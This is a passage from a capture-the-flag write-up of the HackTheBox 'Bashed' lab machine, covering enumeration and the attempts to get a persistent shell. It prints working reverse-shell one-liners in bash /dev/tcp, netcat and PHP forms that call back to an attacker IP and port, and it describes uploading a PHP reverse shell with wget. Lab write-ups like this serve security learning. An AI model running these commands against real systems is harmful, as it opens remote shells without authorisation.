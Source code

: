     var/www/html/dev/shm# bash LinEnum.sh

We obtained the following results:

* The linux version is updated so there were extremely less chances of finding any vulnerability here.

* Currently our userid is (www-data), there is another user by the name of scriptmanager.

* We can use sudo without a password & scriptmanager can run anything.

* The web shell that we have currently is not persistent.
>  To check this out, we run the command

    sudo -u scriptmanager bash
>  and

    python -c ‘import pty;pty.spwan(“/bin/bash”)’ 
>  but still we are www-data

So, the web shell that we have obtained wasn’t persistent and we needed to obtain a persistent shell so we had to execute a reverse shell.

### [Pen-Test Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

To make a reverse shell connection to the vulnerable machine we go to the cheat sheet list that is presented by the Pen-Test Monkey. It is an extremely useful tool.

The first step is to setup a listener on our machine, where the reverse shell would pop up. So, once the listener is up we pass several commands in the web-based shell in the vulnerable machine to initiate the reverse shell (don’t forget to change the IP address & port number).

![](../img/Bashed Writeup/1_3eQmU860zlpWGoaoSvTuQg.png)

**Bash**

    bash -i >& /dev/tcp/10.10.14.38/8081 0>&1

**Netcat**

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.38 8081 >/tmp/f

**PHP**

    php -r '$sock=fsockopen("10.10.14.38”,8081);exec("/bin/sh -i <&3 >&3 2>&3");'

After all these attempts we are still unable to launch a reverse shell. Then we try to upload a php reverse shell. Earlier when we were using GoBuster we came across a domain /uploads. We go to the particular directory in the vulnerable machine and try creating a file and see if we have the permission to do so, we type in the command

    var/www/html/uploads# touch test

We opened the browser to check if the URL [http://10.10.10.68/uploads/test](http://10.10.10.68/uploads/test) works or not and lucky for us it worked.

Then we copy over the php-reverse-shell.php file to our folder where we stored the LinEnum.sh files and using wget we download the php file in the vulnerable machine as we did before. We make the required changes to the php file, like changing the IP address and the port number to listen on.
